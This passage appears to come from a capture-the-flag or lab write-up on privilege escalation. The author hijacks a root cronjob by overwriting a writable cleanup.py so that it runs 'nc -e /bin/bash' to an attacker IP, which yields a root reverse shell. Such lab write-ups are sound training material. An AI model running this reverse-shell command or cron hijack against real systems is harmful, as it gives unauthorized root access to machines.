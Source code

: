 #### -Per linpeas.sh scan I found the following cronjob running every 3 minutes

![](../Pasted%20Images/Pasted%20image%2020220601135047.png)

#### -Cat'd "/var/www/html/booked/cleanup.py" and found the following:

![](../Pasted%20Images/Pasted%20image%2020220601135120.png)

##### -As I kept receiving errors when trying to navigate on "vi" locally on target machine I created a "cleanup.py" file on my kali machine and changed "rm -r /var/www/html/booked/uploads/reservation/* " to "nc -e /bin/bash 192.168.49.235 21":

![](../Pasted%20Images/Pasted%20image%2020220601135204.png)

##### -I then uploaded the "cleanup.py" script I created onto target machine and typed "mv cleanup.py /var/www/html/booked/" to overwrite the existing cleanup.py file in /var/www/html/booked/ and started a netcat listener on port 21 and waited a few minutes and received a root shell:

![](../Pasted%20Images/Pasted%20image%2020220601135304.png)